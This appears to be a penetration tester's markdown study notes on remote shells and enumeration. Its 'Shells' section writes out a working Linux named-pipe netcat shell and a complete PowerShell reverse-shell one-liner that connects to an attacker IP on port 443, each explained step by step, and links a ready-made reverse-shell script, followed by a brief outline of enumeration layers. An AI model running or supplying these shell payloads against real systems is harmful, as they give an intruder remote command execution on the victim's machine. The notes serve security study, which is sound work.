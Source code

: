 ### Shells
- **Understanding the Command**
```
# Linux
## Create listener
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l $TARGET 1234 > /tmp/f

1. rm -f /tmp/f = remove the file /tmp/f if exists (-f)
2. ; = sequential execution
3. mkfifo /tmp/f = create named pipe
4. cat /tmp/f | = concatenates the FIFO named pipe file 
5. | = connects stdout to stdin of the commands
6. /bin/bash -i 2>&1 | = specifiy the bash interactive (-i) + standard error data stream (2) $ standar output data stream (1) redirected to the next command
7. nc -l $TARGET 1234 > /tmp/f = send the result to nc, output sent to /tmp/f that uses bbash sehll waiting for the connection

# Windows
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

1. powershell -nop -c = powershell with no profile (nop) and execute command block (-c)
2. $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) = sets variable $client, create object System.Net.Socket.TCPCLIENT
3. ; = sequential execution
4. $stream = $client.GetStream() = set $stream to $client, GetStream uses for network communication
5. [byte[]]$bytes = 0..65535|%{0} = byte type array [], returns 65535 zeros as values. Empty byte stream that is sent to TCP listener
7. while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) = loop using the $bytes
8. {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i) = sets $data to ASCII enconding. Encode $byte stream to ASCII.
9. $sendback = (iex $data 2>&1 | Out-String ) = set $sendback to the Invoke-Expresion (iex) to $data. Standar error+ouput to the Out-String which cnverts input objects into strings
10. $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ' = $sendback2 is $sndback + string PS + current directory = the shell will be in the current directory
11. $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}; =  sets $sendbyte to ASCI enconded byte stream that use TCP client to initiate PS session with NC
12. $client.Close() = to be used when the connection is closes
```
- Also as [script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

## Enumeration
- Infrastrcuture-based
- Host-based
- OS-based
- Layers
  - Internet: internal/external access
    - Domains, Subdomains, vHost, IP, Cloud
    - Target: identify target systems/interfaces
  - Gateway; security measures
    - DMS, IPS/IDS, Proxies, VPN, Segmentation
  - Services:
    - Type, FUnctionality, config, port, version
    - Target: reasion/functionality of target system
  - Privileges: internal permissions and privileges
    - groups, users, permissions, restrictions, environment
    - Target: identify what is possible